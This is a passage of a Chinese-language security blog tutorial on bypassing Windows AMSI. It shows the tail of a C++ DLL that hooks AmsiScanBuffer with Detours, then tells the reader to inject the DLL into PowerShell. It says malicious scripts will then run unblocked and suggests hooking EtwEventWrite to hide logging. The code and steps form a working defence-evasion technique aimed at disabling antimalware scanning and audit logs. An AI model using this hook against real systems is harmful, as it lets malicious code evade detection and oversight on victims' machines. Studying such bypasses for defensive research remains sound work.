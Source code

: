 ```

        DetourAttach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
        DetourTransactionCommit();

    } else if (dwReason == DLL_PROCESS_DETACH) {
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
        DetourTransactionCommit();
        FreeConsole();
    }
    return TRUE;
}
```

*   将 AmsiHOOK.dll 注入到 powershell 进程中。  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20200702162943-2dc4ce3a-bc3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200702162943-2dc4ce3a-bc3e-1.png)
*   现在我们可以输入任何恶意脚本给 powershell 执行了且不会被拦截，这个项目只是一个基础，你可以做相当多的扩展，如 hook EtwEventWrite 函数去隐藏日志记录等等。
*   下一篇给大家分享另外一种更简单的绕过姿势。

Reference
---------

[Understanding and Bypassing AMSI](https://x64sec.sh/understanding-and-bypassing-amsi/)  
[初探 Powershell 与 AMSI 检测对抗技术](https://www.anquanke.com/post/id/168210)